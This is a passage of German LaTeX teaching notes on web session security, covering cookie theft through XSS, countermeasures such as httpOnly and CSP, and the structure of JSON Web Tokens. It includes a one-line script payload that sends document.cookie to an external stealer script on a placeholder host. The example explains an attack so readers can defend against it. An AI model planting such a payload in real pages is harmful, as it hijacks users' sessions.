 \subsection{Session-Extraktion mittels einer XSS-Lücke}

Mittels Javascript kann auf Session-Cookies zugegriffen werden. Falls die Webseite eine (der häufigen) XSS-Lücken besitzt kann ein Angreifer nun Javascript-Code auf der Webseite platzieren, warten bis ein anderer Benutzer darauf zugreift und mittels des Javascript-Codes die Session-Id auf einen externen Server übermitteln. Dieser Angriffsvektor macht vor allem Spass, wenn eine Nachrichtenfunktion innerhalb einer Applikation verwundbar ist, da man dadurch einzelne Benutzer direkt anvisieren kann.

Beispiel für ein einfaches Javascript-Fragment welches ein Redirect auf einen externen Server (xyz.com) durchführt und als GET-Parameter die aktuellen Cookies übergibt:

\begin{verbatim}
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
\end{verbatim}

Folgende Gegenmaßnahmen sollten implementiert werden:

\begin{itemize}
	\item keine XSS-Lücke in der Webseite implementieren\ldots
	\item durch Verwendung des httpOnly-Cookie Flags kann dem Webbrowser mitgeteilt werden, dass der Zugriff mittels Javascript auf das Session Cookie nicht erlaubt ist.
	\item CSP bietet Möglichkeiten XSS-Angriffe einzuschränken.
\end{itemize}

\section{JSON Web Tokens}

JSON Web Tokens (JWT) sind standardisierte (RFC 7519) Tokens die als HTTP Parameter, HTTP Session Cookies oder mittels eines HTTP Headers übertragen werden können. Ein JSON Web-Token besteht aus drei Bereichen:

\begin{itemize}
	\item Header: dieser Bereich speichert vor allem den verwendeten Algorithmus zur Erstellung des Integrity Checks.
	\item Content: JSON-Dokument welches die eigentliche Payload des Tokens ist. Es gib hier mehre vordefinierte optionale Werte: \textit{iss} beschreibt den Issuer/Aussteller des Tokens, \textit{sub} beschreibt das Subjekt des tokens, \textit{aud} die geplante Audience (welche Server sollen das Token erhalten, \textit{exp} und \textit{nbf} den Gültigkeitszeitraum des tokens, \textit{iat} den Ausstellungszeitpunkt.
	\item Integrity Check: der integrity check verwendet den, im \textit{alg}-Header definierten Algorithmus über \textit{header} und \textit{content} um eine Checksumme zu bilden.
\end{itemize}


